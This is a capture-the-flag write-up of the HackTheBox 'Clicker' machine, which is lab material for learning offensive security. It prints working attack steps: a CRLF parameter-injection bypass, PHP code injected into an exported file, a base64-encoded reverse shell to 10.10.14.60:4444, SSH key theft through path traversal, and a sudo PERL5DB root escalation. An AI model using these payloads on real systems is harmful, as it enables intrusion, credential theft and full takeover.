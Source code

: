 ```yaml
---
slug: /write-up/htb/medium/clicker
pagination_next: null
pagination_prev: null
draft: true
---
```


## Enumeration

The machine has a NFS share sharing the source code

Checking the source code we see a potential SQL injection following a similar pattern of this:

https://phpdelusions.net/pdo/sql_injection_example

curl -vv 'http://clicker.htb/save_game.php?clicks=0&level=0&nickname=blabla' -H 'Cookie: PHPSESSID=pbf2159gsu1kit0bmttdh28bmh'

We can arbirtraryly change key-values in the database in the query, however, there's a explicit check to try to change the role:

```php
	foreach($_GET as $key=>$value) {
		if (strtolower($key) === 'role') {
			// prevent malicious users to modify role
			header('Location: /index.php?err=Malicious activity detected!');
			die;
		}
```

## Foothold

In order to avoid this, we need to mask the key somehow, an idea can be to bypass that restriction using CR-LF injection:

```bash
curl -vv 'http://clicker.htb/save_game.php?role%0a=Admin' -H 'Cookie: PHPSESSID=k002rk00q1d5v73c3nvjgabeie'
```

Now, we are admin in the PHP application and we can perform more enumerations.

We discovered some interesting pages:
- admin.php: Generates a list with the top users.
- export.php: Generate a file `exports/top_players_fwhb6q51`, no more info. Maybe it's good to do user enumeration?
- diagnostic.php: Protected by a md5 token

We can access the generated files by the exporting function...
```bash
curl -vv 'http://clicker.htb/export.php' -X POST  -H 'Content-Type: application/x-www-form-urlencoded'  -H 'Cookie: PHPSESSID=k002rk00q1d5v73c3nvjgabeie' --data-raw 'threshold=0&extension=html'
```

We can change the extension to PHP. 

```bash
curl -vv 'http://clicker.htb/export.php' -X POST  -H 'Content-Type: application/x-www-form-urlencoded'  -H 'Cookie: PHPSESSID=pbf2159gsu1kit0bmttdh28bmh' --data-raw 'threshold=0&extension=php'
```

We can change the nickname of the user to execute arbitrary PHP code. We'll change the nickname to make execute the following PHP code:

```php
<?php $output = exec('id');echo "$output";?>
```

```bash
curl -vv 'http://clicker.htb/save_game.php?clicks=0&level=0&nickname=%3C%3Fphp%20echo%20%221234%22%3B%3F%3E' -H 'Cookie: PHPSESSID=pbf2159gsu1kit0bmttdh28bmh'
```

Now we can repeat the process but to run a reverse shell:

```php
<?php system("echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNjAvNDQ0NCAwPiYx|base64 -d|bash")?>
```

```bash
curl -vv 'http://clicker.htb/save_game.php?clicks=0&level=0&nickname=%3C%3Fphp%20system%28%22echo%20c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNjAvNDQ0NCAwPiYx%7Cbase64%20-d%7Cbash%22%29%3F%3E' -H 'Cookie: PHPSESSID=pbf2159gsu1kit0bmttdh28bmh'
```

We get a shell for the user www-data. We discovered a user named `jack` by checking /etc/passwd

## Lateral movement

During enumeration we discover there are two files in `/opt` files:

- monitor.sh: script that downloads the output of diagnostic.php, the user needs to be root
- manage/README
- manage/executequery: binary file that setup up all the environment

Let's download it and analyse it using `ghidra` ...

```c
    iVar1 = atoi(*(char **)(param_2 + 8));
    pcVar3 = (char *)calloc(0x14,1);
    switch(iVar1) {
    case 0:
      puts("ERROR: Invalid arguments");
      uVar2 = 2;
      goto LAB_001015e1;
    case 1:
      strncpy(pcVar3,"create.sql",0x14);
      break;
    case 2:
      strncpy(pcVar3,"populate.sql",0x14);
      break;
    case 3:
      strncpy(pcVar3,"reset_password.sql",0x14);
      break;
    case 4:
      strncpy(pcVar3,"clean.sql",0x14);
      break;
    default:
      strncpy(pcVar3,*(char **)(param_2 + 0x10),0x14);
    }
```
There's a default option that would copy any provided value in param_2 into `pcVar3`

```c
    local_98 = 0x616a2f656d6f682f;
    local_90 = 0x69726575712f6b63;
    local_88 = 0x2f7365;
    sVar4 = strlen((char *)&local_98);
    sVar5 = strlen(pcVar3);
    __dest = (char *)calloc(sVar5 + sVar4 + 1,1);
    strcat(__dest,(char *)&local_98);
    strcat(__dest,pcVar3);
    setreuid(1000,1000);
    iVar1 = access(__dest,4);
    if (iVar1 == 0) {
      local_78 = 0x6e69622f7273752f;
      local_70 = 0x2d206c7173796d2f;
```

`local_98` value corresponds to the string `/home/jack`. So, what it's doing this program is forcing the provided file is inside `/home/jack` folder, which we don't have access. However, we can read the private SSH key with this mechanism:

```bash
www-data@clicker:/opt/manage$ ./execute_query 5 ../.ssh/id_rsa
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
-----BEGIN OPENSSH PRIVATE KEY---
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
```

Now we just need to adapt the private key format comparing with some valid private key and boom, we are in as `jack`:

```bash
ssh jack@clicker.htb -i ../exfil/priv_key 
```

And we can read the user flag.

## Privilege escalation

`sudo -l` shows interesting stuff:

```bash
User jack may run the following commands on clicker:
    (ALL : ALL) ALL
    (root) SETENV: NOPASSWD: /opt/monitor.sh
```

First of all, we try to run the monitoring script to see what happens:

```bash
jack@clicker:~$ sudo /opt/monitor.sh 
<?xml version="1.0"?>
<data>
```

An potential way to exploit this, is set the `EUID` to a number different than 0 so that it enters in the if when the user is not root:

```bash
#!/bin/bash
if [ "$EUID" -ne 0 ]
  then echo "Error, please run as root"
  exit
fi

set PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
unset PERL5LIB;
unset PERLLIB;
```

The PATH is not well protected and if we provide the proper PATH variable, we can make `echo` program to point to our fradulent implementation ... Let's give it a try ...

Interesting, this technique does not seem to work with `echo` for some kind of reason but work with `ls` for instance. Looks like `echo` is a bult-in executable in the shell and does not use the `PATH` variable to determine where is it.

We can use `PERL5OPT` to set the debugger flag for perl and `PERL5DB` to specify the command we want to use as a debugger:

```bash
jack@clicker:~$ sudo PERL5OPT=-d PERL5DB='system("ls");' /opt/monitor.sh 
queries  user.txt
```

However, if we try to get a shell from here, we'll fail:

```
jack@clicker:~$ sudo PERL5OPT=-d PERL5DB='system("/bin/bash");' /opt/monitor.sh 
/bin/bash: line 1: syntax error near unexpected token `newline'
/bin/bash: line 1: `<?xml version="1.0"?>'
No DB::DB routine defined at /usr/bin/xml_pp line 9.
No DB::DB routine defined at /usr/lib/x86_64-linux-gnu/perl-base/File/Temp.pm line 870.
END failed--call queue aborted.
```

But, we can do a nasty thing, we can set the SUID flag so that if keeps the root permission, even if the user is not root:

```bash
sudo PERL5OPT=-d PERL5DB='system("chmod u+s /bin/bash");' /opt/monitor.sh

jack@clicker:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```

If we run bash normally we'll not get the root console:

```bash
jack@clicker:~$ bash
bash-5.1$ whoami
jack
```

However, there's a flag `-p` in bash to use the effective user id instead of the real user id:

```bash
jack@clicker:~$ bash -p
bash-5.1# whoami
root
```

And now we can read the root flag.